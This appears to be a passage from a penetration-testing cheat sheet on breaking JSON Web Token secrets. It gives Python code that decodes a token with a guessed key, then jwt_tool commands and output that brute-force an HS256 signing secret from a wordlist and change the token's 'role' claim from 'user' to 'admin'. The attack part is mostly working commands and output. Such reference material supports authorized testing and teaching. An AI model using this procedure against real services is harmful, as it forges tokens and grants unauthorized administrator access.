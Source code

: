 ## Breaking JWT's secret

Encode/Decode JWT with the secret.

```python
import jwt
encoded = jwt.encode({'some': 'payload'}, 'secret', algorithm='HS256') # encode with 'secret'

encoded = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE"
jwt.decode(encoded, 'Sn1f', algorithms=['HS256']) # decode with 'Sn1f' as the secret key

# result
{u'admin': True, u'sub': u'1234567890', u'name': u'John Doe'}
```

### JWT tool

First, bruteforce the "secret" key used to compute the signature.

```powershell
git clone https://github.com/ticarpi/jwt_tool
python2.7 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6InVzZXIiLCJpYXQiOjE1MTYyMzkwMjJ9.1rtMXfvHSjWuH6vXBCaLLJiBghzVrLJpAQ6Dl5qD4YI /tmp/wordlist

Token header values:
[+] alg = HS256
[+] typ = JWT

Token payload values:
[+] sub = 1234567890
[+] role = user
[+] iat = 1516239022

File loaded: /tmp/wordlist
Testing 5 passwords...
[+] secret is the CORRECT key!
```

Then edit the field inside the JSON Web Token.

```powershell
Current value of role is: user
Please enter new value and hit ENTER
> admin
[1] sub = 1234567890
[2] role = admin
[3] iat = 1516239022
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
```
